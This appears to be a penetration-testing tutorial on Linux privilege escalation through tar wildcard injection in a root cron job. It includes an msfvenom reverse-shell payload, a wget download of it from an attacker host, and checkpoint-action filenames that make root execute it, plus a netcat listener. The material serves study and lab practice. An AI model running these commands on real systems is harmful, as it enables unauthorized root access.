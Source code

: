 ### **INTRODUCTION**

When you use a wildcard character (\*) in a command argument, the shell performs a process called filename expansion or globbing. This replaces the wildcard with a space-separated list of all file and directory names in the current directory. You can observe this behavior by executing the command echo \* from your home directory.

### **WILDCARDS & FILENAMES**

Linux filesystems allow a wide range of characters in filenames. Because filename expansion occurs before command execution, you can inadvertently pass command-line options (like -h or --help) by creating files with these names. Here’s an example to illustrate this:

```bash
$ ls *
$ touch ./-l
$ ls *
```

Filenames aren't limited to simple options like -h or --help. You can also create filenames that correspond to more complex options, such as --option=key=value. Tools like GTFOBins can help you find commands with useful command-line options for such purposes.

### **STEPS TO IDENTIFY AND EXPLOIT WILDCARD**

1.  By Running LinPEAS reveals a cron job running every minute as root, executing a script in /usr/local/bin using the absolute path.  
    
    ![](../../../../img/Linux-Environment/77.png)

    **NOTE:** Even without this being a red/yellow finding, it is worth a closer look!
    
2.  Check the permissions on the /usr/local/bin/ directory to determine if we can write to it:  
    `ls -l /usr/local | grep "bin"` 

    ![](../../../../img/Linux-Environment/78.png)

    **NOTE:** The bin directory is owned by root and the staff group. Our user has only read and execute permissions.
    
3.  However, Despite not having write permissions, we can still exploit this cron job by examining the script:  
    `ls -la /usr/local/bin/compress.sh`

    ![](../../../../img/Linux-Environment/79.png)

    **NOTE:** I guess that means we won’t be able to exploit this cron job since we don't write have permissions to compress.sh script
    
4.  Actually – not true at all! We definitely still can exploit this cron job!  
    `cat /usr/local/bin/compress.sh`  
    
    ![](../../../../img/Linux-Environment/80.png)

    **NOTE:** When a wildcard character (\*) is provided to a command as part of an argument, the shell will first perform filename expansion (also known as globbing) on the wildcard.
    
5.  The tar command is run with a wildcard in the /home/user directory.  
    `ls -l /home | grep "user"`  

    ![](../../../../img/Linux-Environment/81.png)

    **NOTE:** This confirms that our current user does have write permissions in the /home/user directory!
    
6.  GTFOBins shows that tar has command line options which can be used to run other commands as part of a checkpoint feature.  
    
    ![](../../../../img/Linux-Environment/82.png)
    
7.  we can use msfvenom to craft a reverse shell ELF payload  
    `msfvenom -p linux/x64/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=1337 -f elf -o shell.elf`  
    
    ![](../../../../img/Linux-Environment/83.png)

    **NOTE:** we can create files that are named different switches, and tar will execute them when it compresses everything in the directory.
    
8.  Now that our payload has been created, we can download it onto the target machine (check out FIle Transfer Section)  
    `wget http://[IP-ADRESS]:8000/shell.elf -O /home/user/shell.elf`  
    
    ![](../../../../img/Linux-Environment/84.png)
    
9.  it is still not ready. In order for the cron job to execute our binary, we need to give is execute permissions.  
    `chmod +x /home/user/shell.elf`
    
10. Lets Create two files in the /home/user directory:  
    `touch /home/user/--checkpoint=1 && touch /home/user/--checkpoint-action=exec=shell.elf`  
    
    ![](../../../../img/Linux-Environment/85.png)
    
11. The payload is ready and should trigger every minute. All that is left to do is start a netcat listener on out attacker machine  
    `nc -lvnp 1337`  
    
    ![](../../../../img/Linux-Environment/86.png)